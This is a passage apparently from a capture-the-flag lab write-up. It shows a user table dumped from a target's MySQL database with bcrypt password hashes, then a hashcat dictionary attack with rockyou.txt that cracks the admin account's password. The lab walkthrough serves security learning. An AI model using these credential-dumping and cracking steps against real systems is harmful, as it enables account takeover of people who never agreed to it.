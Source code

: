 ```bash
9       Steven  Roman   stev    steven@yahoo.com        $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2    2024-12-24 12:05:05     student 1
10      Sara    Brawn   sara.b  sara.b@certificate.htb  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26     admin   1
12      aa      aa      aa      aa@gmail.com    $2y$04$cWh9S8NgzF9ozPInuH.49O1fKE4MqBVGuN.MoAx5oeh2zPH2nT26O    2025-10-03 09:16:01     student 1
13      toto    toto    toto    toto@toto.com   $2y$04$naOTQd5GDC6JCKiIx4bL4uah84tHzspMop3An/mvRDFfxOIfrsKTe    2025-10-03 09:16:15     teacher 0
15      titi    titi    titi    titi@titi.com   $2y$04$AGCPbDhjGfmOetZoH/fEWO5ivwAiJYDh9uea.cGkFHd/aOHZ1tSzW    2025-10-03 09:19:22     student 1
PS C:\xampp\mysql\bin> 

```

Now that we have the hashes let’s go ahead and save them in a single file which i will call it “hash” and then crack them.

```bash
──(kali㉿kali)-[~/Downloads/certificate]
└─$ hashcat -m 3200  hash --wordlist /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 5 7535HS with Radeon Graphics, 1435/2934 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Blink182
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8U...kZNdH6
Time.Started.....: Fri Oct  3 05:50:09 2025 (32 secs)
Time.Estimated...: Fri Oct  3 05:50:41 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      379 H/s (1.44ms) @ Accel:2 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```